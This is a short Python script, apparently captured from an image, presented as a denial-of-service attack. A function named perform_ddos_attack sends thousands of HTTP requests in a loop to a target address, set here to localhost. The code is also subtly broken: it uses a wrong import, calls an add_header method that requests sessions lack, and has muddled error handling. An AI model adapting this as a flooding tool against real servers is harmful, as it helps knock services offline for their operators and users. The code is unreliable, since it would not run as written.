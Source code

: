 import requests
from requests.adapters import Response

def perform_ddos_attack(target_ip, target_port):
    requests.get(f"http://{target_ip}:{target_port}")

def main():
    target_ip = '127.0.0.1'
    target_port = 80

    with requests.Session() as s:
        for i in range(10000):
            s.add_header('User-Agent', 'Python/requests')
            s.add_header('Connection', 'keep-alive')

            try:
                perform_ddos_attack(target_ip, target_port)

            except requests.exceptions.HTTPError as e:
                if e.response.status_code != 503:
                    continue
                raise(e)

if __name__ == '__main__':
    main()
